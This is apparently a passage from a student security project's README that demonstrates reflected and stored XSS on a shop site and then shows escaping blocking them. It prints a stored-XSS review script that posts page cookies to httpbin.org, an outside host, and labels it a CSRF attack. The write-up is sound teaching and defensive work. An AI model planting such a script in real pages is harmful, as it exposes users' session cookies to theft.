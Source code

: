  - **CSP_FONT_SRC** -  specifies the sources from which fonts may be loaded.



### Demonstrations


This section will have video footage of *exploiting the vulnerabilities* and *trying to exploit them after they've been fixed*:


#### Exploiting Vulnerability

- Reflected XSS through the *Search box*:

https://github.com/detiuaveiro/1st-project-group_04/assets/97046574/f576f46d-93bd-4a81-9cec-f2896b270476

- An attacker creates a review that includes malicious code. That malicious code will be stored in the database and loaded whenever the page is loaded by anyone.

https://github.com/detiuaveiro/1st-project-group_04/assets/97046574/368a68a6-ed4d-4102-b494-54004f09e8a2

- An attacker creates a review that includes the following malicious code to perform a *CSRF attack*:

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "https://httpbin.org/post");
xhr.setRequestHeader("Content-Type", "application/json; charset=UTF-8");
const body = JSON.stringify({"cookie" : Document.cookie});
xhr.onload = () => {
  if (xhr.readyState == 4 && xhr.status == 200) {
    console.log(JSON.parse(xhr.responseText));
  } else {
    console.log(`Error: ${xhr.status}`);
  }
};
xhr.send(body);
</script>
```

This code will send an HTTP POST request to a website (*httpbin* used to test these http requests) including cookies for the current page in the body of the request.

Since it's loaded every time the page is loaded, every user who opens this product, will have their cookies sent over by the POST request.

https://github.com/detiuaveiro/1st-project-group_04/assets/97046574/79638e44-b657-4eec-bc02-84121ca72d5e


#### Trying to exploit after fix is implemented

- An attacker tries to post a review with malicious javascript code, but fails because the input is automatically escaped when building the HTML template.
